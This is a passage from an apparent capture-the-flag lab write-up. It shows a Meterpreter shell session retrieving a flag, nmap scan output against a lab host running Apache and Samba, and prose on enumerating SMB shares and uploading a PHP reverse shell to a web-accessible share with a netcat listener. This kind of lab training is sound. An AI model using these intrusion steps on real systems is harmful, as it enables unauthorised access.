 ```bash
    udp    127.0.0.11:49631     0.0.0.0:*                         65534  0

meterpreter > shell
Process 89 created.
Channel 3 created.
nc 127.0.0.1 8888        
Enter the secret passphrase: letmein
FLAG2{2fe2f4c3ff78437195a48259b*******}

```

---

### Flag 3:

A misconfigured service running on target2.ine.local may help you gain access to the machine. Can you retrieve the flag from the root directory?

Let’s start with information gathering phase with the help of Nmap and here is the results

```bash
┌──(root㉿INE)-[~]
└─# nmap -sC -sV target2.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 21:32 IST
Nmap scan report for target2.ine.local (192.245.33.4)
Host is up (0.000034s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Can you Pwn me?
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:C0:F5:21:04 (Unknown)

Host script results:
|_nbstat: NetBIOS name: TARGET2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-31T16:02:29
|_  start_date: N/A
```

Now that we found the service running on target2 machine service like samba and apache let’s drive in with enum4linux into target. and we found a share in there so we’ll connect to that using smbclient. After navitgating it seems like file are stored in here and can be access through site-share. But now as gain access to this we’ll upload a shell to site-uploads and access it from there.

For this we’ll be using php-reverse shell which can be access in here `usr/share/webshells/php/php-reverse-shell.php` just change the IP address and Port number if required. and upload it to the site-uploads then deploy the netcat listener to catch the connection. 
